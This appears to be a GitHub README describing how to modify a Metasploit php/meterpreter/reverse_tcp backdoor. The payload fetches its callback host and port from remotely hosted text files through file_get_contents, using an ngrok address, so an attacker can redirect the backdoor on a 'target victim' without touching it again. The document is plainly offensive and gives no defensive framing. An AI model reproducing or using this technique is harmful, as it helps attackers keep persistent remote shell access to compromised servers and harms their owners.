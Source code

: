 # Metasploit-Payload-PHP-Backdoor-Func
metasploit payload 'php/meterpreter/reverse_tcp' file_get_content

look at line 4 through line 11, there you see the original source code on line 6 and line 7, and replace it like line 10 and line 11.


$ ip = file_get_contents ("url");

$ port = file_get_contents ("url");


Explanation: file_get_contents is to get the contents of the URL, so we create a file:


host.txt (contains "0.tcp.ngrok.io")

port.txt (contains "port", for example "13337")
and the file, uploaded to Hosting or Online storage.


Why use file_get_contents?
Because, when the backdoor is installed and used in the target victim, we cannot change the IP: Port, when Port Forwarding is down or experiencing problems, we only need to change the contents of the file host.txt and port.txt in Hosting or Online Storage, and backdoor in the target victim will read the new contents of the file, and therefore we can make it change as we wish.
